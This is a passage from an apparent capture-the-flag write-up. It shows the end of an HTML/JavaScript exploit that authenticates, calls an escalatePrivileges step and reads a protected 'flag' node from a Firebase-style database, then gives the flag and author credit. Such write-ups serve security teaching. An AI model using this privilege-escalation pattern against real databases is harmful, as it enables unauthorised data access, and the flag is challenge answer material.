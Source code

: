 ```<!DOCTYPE html>
        }

        // get flag
        async function accessFlag() {
            try {
                const flagRef = ref(db, "flag");
                const snapshot = await get(flagRef);

                if (snapshot.exists()) {
                    console.log("Flag found:", snapshot.val());
                } else {
                    console.log("Flag not found or access denied.");
                }
            } catch (error) {
                console.error("Failed to access the flag:", error.message);
            }
        }

        // start
        async function startExploit() {
            try {
                const user = await authenticateUser();
                const userId = user.uid;
                await escalatePrivileges(userId);
            } catch (error) {
                console.error("Exploit failed:", error.message);
            }
        }

       
        startExploit();
    </script>
</body>
</html>
```

<b> FLAG: udctf{wh4t_4_sleuth_y0u_4r3!} </b>

<b>author: </b> [hebi](https://github.com/0xhebi)